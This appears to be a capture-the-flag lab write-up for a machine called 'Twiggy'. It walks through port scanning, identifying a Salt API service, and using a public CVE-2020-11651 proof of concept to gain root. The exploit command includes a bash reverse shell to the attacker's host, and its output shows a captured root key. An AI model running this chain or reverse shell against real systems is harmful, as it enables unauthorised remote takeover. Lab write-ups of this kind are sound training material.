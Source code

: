 # Twiggy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.62
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:10 +08
Nmap scan report for 192.168.219.62
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

Did a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,53,80,4505,4506,8000 -sC -sV --min-rate 3000 192.168.219.62      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 11:11 +08
Nmap scan report for 192.168.219.62
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 447d1a569b68aef53bf6381773165d75 (RSA)
|   256 1c789d838152f4b01d8e3203cba61893 (ECDSA)
|_  256 08c912d97b9898c8b3997a19822ea3ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

### Salt API --> RCE

Port 8000 looked the most interesting since it was only returning JSON data. Visiting it just shows a few 'clients':

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

When we view the headers, we can see that this is using a program called Salt API:

<figure><img src="../../../.gitbook/assets/image (23) (4).png" alt=""><figcaption></figcaption></figure>

There are some exploits for Salt here:

```
$ searchsploit salt    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Oracle MySQL / MariaDB - Insecure Salt Generation Security | linux/remote/38109.pl
SaltOS - 'download.php' Cross-Site Scripting               | php/webapps/37642.txt
SaltOS Erp Crm 3.1 r8126 - Database File Download          | php/webapps/45734.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection                   | php/webapps/45731.txt
SaltOS Erp Crm 3.1 r8126 - SQL Injection (2)               | php/webapps/45733.txt
Saltstack 3000.1 - Remote Code Execution                   | multiple/remote/48421.txt
----------------------------------------------------------- ---------------------------------
```

The last one looks like the most reliable, and it works:

```
$ python3 poc.py --master 192.168.219.62 --exec 'bash -i >& /dev/tcp/192.168.45.182/80 0>&1'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.219.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: EhN8Uknfm4lWhieX13oN5C+NiHo63BzPifodAAOygyu3DL3ZUnCX4BEV9cvD/zT4NfCHQ22Hq7s=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.182/80 0>&1 on 192.168.219.62
[+] Successfully scheduled job: 20230705031527947368
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
